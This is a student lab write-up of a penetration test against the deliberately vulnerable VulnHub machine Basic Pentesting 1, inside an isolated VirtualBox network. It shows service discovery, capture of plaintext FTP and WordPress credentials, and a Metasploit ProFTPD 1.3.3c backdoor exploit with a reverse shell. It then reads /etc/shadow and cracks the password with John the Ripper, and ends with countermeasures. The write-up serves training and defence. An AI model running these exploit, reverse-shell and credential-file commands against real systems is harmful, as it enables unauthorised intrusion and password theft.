# Network Security Project — Basic Pentesting 1 

A full penetration-testing assessment of the intentionally vulnerable **Basic Pentesting 1** virtual machine from VulnHub. The assessment runs the complete chain — environment setup, system discovery, network traffic analysis, exploitation, and password cracking — using standard tools (Nmap, WhatWeb, Nikto, Wireshark, Metasploit, and John the Ripper), and ends with a security analysis and recommended countermeasures.

| Item | Value |
|------|-------|
| Target | Basic Pentesting 1 (VulnHub), Ubuntu-based, hostname `vtcsec` |
| Attacker | Kali Linux |
| Lab network | VirtualBox NAT Network `NatNetwork`, `192.168.10.0/24`, DHCP |
| Target IP | `192.168.10.4` |
| Kali IP | `192.168.10.3` |
| Tools | Nmap, WhatWeb, Nikto, Wireshark, Metasploit, John the Ripper |

## Table of Contents

- [Phase 1 — Target Selection and Environment Preparation](#phase-1--target-selection-and-environment-preparation)
- [Phase 2 — System Discovery](#phase-2--system-discovery)
- [Phase 3 — Network Communication Observation](#phase-3--network-communication-observation)
- [Phase 4 — Authentication Strength Evaluation](#phase-4--authentication-strength-evaluation)
- [Phase 5 — Security Analysis and Recommendations](#phase-5--security-analysis-and-recommendations)
- [Repository Structure](#repository-structure)

---

## Phase 1 — Target Selection and Environment Preparation

### Target System

The selected vulnerable system is **Basic Pentesting 1**, obtained from **VulnHub** — an intentionally vulnerable Linux (Ubuntu-based) virtual machine built for penetration-testing practice. It was chosen because it exposes multiple common services (FTP, SSH, and an Apache web server), includes an outdated and exploitable service alongside weak passwords, and allows the complete assessment chain (discovery, exploitation, and password cracking) to be demonstrated with standard tools.

The VM was imported into Oracle VirtualBox from its `.ova` file. It booted correctly and displayed a Linux terminal with the hostname **vtcsec**, confirming the target environment was running.


*Figure 1: The Basic Pentesting 1 target VM (hostname vtcsec) running.*

### Network Setup

A NAT Network named **NatNetwork** was created in VirtualBox to isolate the environment, using the IPv4 range **192.168.10.0/24** with DHCP enabled.


*Figure 2: NAT Network configuration in VirtualBox (NatNetwork, 192.168.10.0/24, DHCP enabled).*

Both machines obtained addresses automatically through DHCP — Kali Linux at **192.168.10.3** and the target at **192.168.10.4**. The addresses were confirmed with `ip a` and the target was located with `netdiscover`.


*Figure 3: Kali Linux and the target running simultaneously, showing their IP addresses (Kali 192.168.10.3, target 192.168.10.4).*


*Figure 4: Network discovery using netdiscover, identifying the active target host at 192.168.10.4.*

Connectivity was verified with `ping`. Successful replies with 0% packet loss confirmed that both systems could communicate within the isolated network.


*Figure 5: Successful ping from Kali Linux to the target (192.168.10.4), confirming communication.*

### Commands

```bash
ip a
sudo netdiscover -i eth0 -r 192.168.10.0/24
ping -c 4 192.168.10.4
```

Full script: [`code/01-environment-and-discovery.sh`](code/01-environment-and-discovery.sh)

---

## Phase 2 — System Discovery

The target (`192.168.10.4`) was analysed from a network perspective with no prior knowledge of its configuration, to identify open ports, running services, and insecure or outdated software.

### Port and Service Scanning

A service and version detection scan was performed with `nmap -sV 192.168.10.4`, revealing:

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | FTP | ProFTPD 1.3.3c |
| 22/tcp | SSH | OpenSSH 7.2p2 (Ubuntu) |
| 80/tcp | HTTP | Apache httpd 2.4.18 (Ubuntu) |


*Figure 6: Nmap service and version detection (nmap -sV).*

### Web Service Identification

The web server was fingerprinted with **WhatWeb**, confirming an Apache 2.4.18 server running on Ubuntu Linux.


*Figure 7: Technology fingerprinting using WhatWeb.*

### Potential Weaknesses

Web enumeration with **Nikto** reported that the Apache 2.4.18 server is outdated, that several security headers are missing (`X-Content-Type-Options`, `Content-Security-Policy`, and `Strict-Transport-Security`), and that an ETag inode-disclosure issue (CVE-2003-1418) is present.


*Figure 8: Web server enumeration using Nikto, reporting the outdated Apache server and multiple missing security headers.*

### Outdated or Insecure Services

- **ProFTPD 1.3.3c (High Risk):** an outdated FTP version known to contain a command-execution backdoor.
- **Apache 2.4.18 (Outdated):** several versions behind current, exposing known vulnerabilities.
- **Unencrypted services:** FTP and HTTP transmit data, including credentials, in plain text.
- **Missing security headers:** increase exposure to client-side attacks such as MIME-sniffing.

### Commands

```bash
nmap -sV 192.168.10.4
whatweb http://192.168.10.4
nikto -h 192.168.10.4
```

Full script: [`code/02-system-discovery.sh`](code/02-system-discovery.sh)

---

## Phase 3 — Network Communication Observation

Traffic between Kali Linux and the target was generated and captured in **Wireshark** to identify the protocols in use and determine whether sensitive information is transmitted in plain text.

### FTP Traffic

An FTP login to the target was performed with the username **topu** and password **test123**. Although the login was rejected, the credentials still crossed the network.


*Figure 9: FTP login attempt to the target (ProFTPD 1.3.3c).*

The capture was filtered with the `ftp` filter and the conversation reassembled with **Follow → TCP Stream**. The username and password were fully visible in plain text.


*Figure 10: Wireshark Follow TCP Stream of the FTP session, showing USER and PASS transmitted in plain text.*

### HTTP (WordPress) Traffic

A hidden **/secret** directory found during enumeration contained a WordPress login page. A test login was submitted at `http://192.168.10.4/secret/wp-login.php` using the username **topu** and password **ttest123**.


*Figure 11: WordPress login page of the target, accessed at /secret/wp-login.php, used to generate HTTP traffic.*

The capture was filtered with `http.request.method == "POST"`. The POST request to `/secret/wp-login.php` showed the form fields in clear text (`log=topu` and `pwd=ttest123`), confirming that HTTP, carried over TCP, also exposes credentials.


*Figure 12: Captured HTTP POST request to /secret/wp-login.php.*


*Figure 13: Wireshark live capture showing the HTTP POST (application layer) carried over TCP (transport layer) between Kali (192.168.10.3) and the target (192.168.10.4).*

### Visible Information

Both **FTP** (port 21) and **HTTP** (port 80) transmit credentials with no encryption. Both run over TCP, which reliably delivers the data but does not encrypt it. Any attacker passively sniffing the network could therefore intercept usernames and passwords, regardless of whether the login succeeds.

### Commands

```bash
# map the target hostname so the WordPress site resolves
echo "192.168.10.4 vtcsec" | sudo tee -a /etc/hosts
# start the Wireshark packet capture on eth0
wireshark &
# generate FTP traffic (enter user: topu, password: test123, then type: quit)
ftp 192.168.10.4
```

Full script: [`code/03-traffic-capture.sh`](code/03-traffic-capture.sh)

---

## Phase 4 — Authentication Strength Evaluation

Password hash information was extracted from the target, transferred to Kali Linux, and cracked offline to evaluate whether weak passwords could be recovered — demonstrating the risk of poor password practices even when passwords are stored as hashes.

### Gaining Root Access

Root access was obtained by exploiting the outdated **ProFTPD 1.3.3c** service with the Metasploit module `exploit/unix/ftp/proftpd_133c_backdoor`. After setting `RHOSTS` to the target and selecting a reverse payload with `LHOST` set to the Kali address (`192.168.10.3`), the exploit opened a command shell session.


*Figure 14: Loading and configuring the ProFTPD 1.3.3c backdoor exploit in Metasploit (RHOSTS set to the target).*


*Figure 15: Successful exploitation — a reverse command shell session opened on the target, and whoami confirmed root access.*

### Extracting Account and Hash Information

As root, the account and password files were read from the target. `/etc/passwd` showed that **marlinspike** (UID 1000) was the only normal user account, with all others being non-login system accounts. The password hashes were read from `/etc/shadow`; the marlinspike entry began with `$6$`, indicating SHA-512 hashing.


*Figure 16: Contents of /etc/passwd read as root, showing the system accounts and the marlinspike user account.*


*Figure 17: Contents of /etc/shadow read as root, containing the hashed passwords.*

### Transferring the Files to Kali

The contents of `/etc/passwd` and `/etc/shadow` were copied to Kali Linux and saved as local files (`passwd` and `shadow`) for offline analysis.


*Figure 18: The /etc/passwd contents saved to a local file on Kali Linux, showing the marlinspike account (UID 1000).*

### Password Recovery

The two files were combined with **unshadow** and cracked with **John the Ripper**. A wordlist attack with rockyou did not recover the password; however, John's **single mode** cracked it immediately by testing the username as the password.


*Figure 19: The marlinspike SHA-512 hash ($6$) and the John the Ripper wordlist attempt.*


*Figure 20: John the Ripper recovering the password in single mode: marlinspike : marlinspike (1 password hash cracked).*

The attack recovered valid credentials — **Username: marlinspike, Password: marlinspike**.

### Why the Password Was Weak

The recovered password (**marlinspike**) was identical to the username — one of the weakest possible choices. It was so predictable that it needed no wordlist at all; John cracked it in single mode simply by trying the username as the password. This shows that SHA-512 hashing provided no protection, because the weakness lay in the password itself.

### Commands

```bash
# --- Gaining root access (Metasploit) ---
msfconsole
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
show options
set RHOSTS 192.168.10.4
set payload cmd/unix/reverse
set LHOST 192.168.10.3
run

# --- On the target shell (as root) ---
whoami
cat /etc/passwd
cat /etc/shadow

# --- On Kali: save the files and crack with John the Ripper ---
nano passwd
nano shadow
unshadow passwd shadow > crackme.txt
john --wordlist=/usr/share/wordlists/rockyou.txt crackme.txt
john --single crackme.txt
john --show crackme.txt
```

Full script: [`code/04-exploitation-and-cracking.sh`](code/04-exploitation-and-cracking.sh)

---

## Phase 5 — Security Analysis and Recommendations

The assessment identified several weaknesses across the target. Each is listed below with its cause and a practical countermeasure.

### Identified Weaknesses and Countermeasures

| # | Weakness | Why It Exists | Countermeasure |
|---|----------|---------------|----------------|
| 1 | Outdated FTP service with a backdoor (ProFTPD 1.3.3c) | Unpatched, known-vulnerable software left running | Patch/upgrade or remove FTP; apply security updates regularly |
| 2 | Credentials sent in plain text (FTP, HTTP) | Unencrypted protocols in use | Replace FTP with SFTP/FTPS; enforce HTTPS/TLS on the web app |
| 3 | Weak OS password cracked from /etc/shadow | No password policy; password equals username | Enforce a strong password policy; use salted slow hashing; enable MFA |
| 4 | Missing security headers; exposed /secret directory | Unhardened Apache configuration; poor access control | Add security headers; restrict sensitive paths; apply least privilege |

### Explanation

These issues span multiple layers: the **application layer** (weak credentials and an exposed admin interface), the **network layer** (unencrypted FTP and HTTP), and the **system layer** (outdated, unpatched software). Together they enabled a complete attack chain:

```
discovery → outdated ProFTPD → Metasploit backdoor → root → extracted /etc/shadow → offline password crack
```

This shows how several smaller weaknesses can combine into a full system compromise.

### Recommended Countermeasures

- **Authentication:** enforce a strong password policy (no username-as-password), change all default credentials, implement account lockout/rate-limiting, and enable Multi-Factor Authentication (MFA).
- **Encryption:** replace FTP with SFTP or FTPS, and serve the web application over HTTPS/TLS with a valid certificate, redirecting HTTP to HTTPS.
- **Patching:** upgrade or remove the vulnerable ProFTPD 1.3.3c service, and update Apache, WordPress, and the operating system regularly.
- **Access Control:** restrict or remove sensitive paths such as `/secret`, protect `/etc/shadow`, limit root access, disable unnecessary services, and apply least-privilege principles.

### Conclusion

